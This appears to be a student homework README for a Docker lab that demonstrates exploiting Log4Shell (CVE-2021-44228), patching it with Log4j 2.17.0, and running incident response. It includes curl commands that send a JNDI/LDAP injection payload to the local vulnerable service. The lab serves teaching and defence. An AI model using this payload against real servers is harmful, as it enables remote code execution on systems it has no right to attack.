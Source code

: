 # HW9-Log4Shell Exploit

This project sets up a Docker-based environment to demonstrate the exploitation of the Log4Shell vulnerability (CVE-2021-44228), apply common defensive measures, and simulate an incident response process. It is designed for educational and training purposes only.

---

## 🛠️ Installation Instructions

### Step 1: Set Up the Vulnerable Environment

Deploy a Java application with a vulnerable version of Log4j (2.14.1) using Docker Compose.

```bash
cd ../log4shell-homework
docker-compose up --build

#After the environment is up and running, simulate an attack using the following commands:

curl -H "Content-Type: text/plain" --data 'test' http://localhost:8080/log
curl -X POST http://localhost:8080/log -d "${jndi:ldap://host.docker.internal:389/a}"

#Teardown
docker-compose down
docker ps -a  # Ensure no containers are still running

#Defend 

#Switch to the defense environment:
cd ../Defend
docker-compose up --build

#Run a harmless log entry and a repeat of the exploit attempt:

#Windows Command Prompt
curl -X POST http://localhost:8080/log -d "Hello, world!"
curl -H "Content-Type: text/plain" --data 'test' http://localhost:8080/log"
curl -X POST http://localhost:8080/log -d "${jndi:ldap://host.docker.internal:389/a}"

#Technologies Used
#Docker
#Docker Compose
#Java (Log4j 2.14.1 in Exploit and Log4j 2.17.0 in Defend)
#Maven
#MITRE ATT&CK Framework

#Author:
#Yvette Kushmerick
